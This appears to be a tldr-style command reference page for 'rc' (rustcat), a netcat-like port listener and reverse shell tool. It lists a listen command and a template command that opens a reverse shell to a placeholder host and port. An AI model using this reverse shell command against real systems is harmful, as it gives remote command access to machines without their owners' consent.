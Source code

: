 # rc

> A modern port listener & Reverse Shell which is simplistic.
> Similar to `nc`.
> More information: <https://github.com/robiot/rustcat/wiki/Basic-Usage>.

- Start listening to a specific port:

`rc -lp {{port}}`

- Start a reverse shell:

`rc {{host}} {{port}} -r {{shell}}`
